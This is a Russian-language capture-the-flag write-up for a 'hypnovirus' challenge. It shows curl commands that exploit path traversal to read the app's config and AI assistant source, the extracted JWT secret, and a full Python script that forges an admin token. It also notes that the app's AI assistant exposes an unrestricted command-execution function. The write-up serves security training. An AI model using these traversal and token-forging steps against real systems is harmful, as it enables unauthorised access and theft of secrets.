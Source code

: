 ### Извлечение конфигурации
```bash
curl -s "https://hypnovirus-srv5c53c81553e1.alfactf.ru/api/file?path=../../../app/hypnovirus/config.py" | jq -r .base64 | base64 -d
```

**Критическая находка:**
```python
JWT_SECRET: str = "hpv_dev_secret_9d1a1c8e-8e3d-4a16-a9d3-2a3a6f7d2c0a-2f0e0e12f7b1428f"
```

### Анализ AI Assistant
```bash
curl -s "https://hypnovirus-srv5c53c81553e1.alfactf.ru/api/file?path=../../../app/hypnovirus/assistant.py" | jq -r .base64 | base64 -d
```

**Последствия для безопасности:**
- AI Assistant имеет функцию `execute_command`
- Системный промпт явно разрешает опасные операции
- Отсутствуют эффективные ограничения на выполнение команд

## Обход аутентификации

### Генерация JWT токена
Использование извлеченного JWT секрета для подделки админского токена:

```python
import json
from datetime import datetime, timedelta
import base64
import hashlib
import hmac

def base64url_encode(data):
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode('ascii')

def create_jwt(payload, secret):
    header = {'typ': 'JWT', 'alg': 'HS256'}
    header_encoded = base64url_encode(json.dumps(header, separators=(',', ':')).encode())
    payload_encoded = base64url_encode(json.dumps(payload, separators=(',', ':')).encode())
    message = f'{header_encoded}.{payload_encoded}'.encode()
    signature = hmac.new(secret.encode(), message, hashlib.sha256).digest()
    signature_encoded = base64url_encode(signature)
    return f'{header_encoded}.{payload_encoded}.{signature_encoded}'

JWT_SECRET = 'hpv_dev_secret_9d1a1c8e-8e3d-4a16-a9d3-2a3a6f7d2c0a-2f0e0e12f7b1428f'
payload = {
    'sub': 'admin',
    'iat': int(datetime.now().timestamp()),
    'exp': int((datetime.now() + timedelta(hours=1)).timestamp())
}
token = create_jwt(payload, JWT_SECRET)
print(token)
```
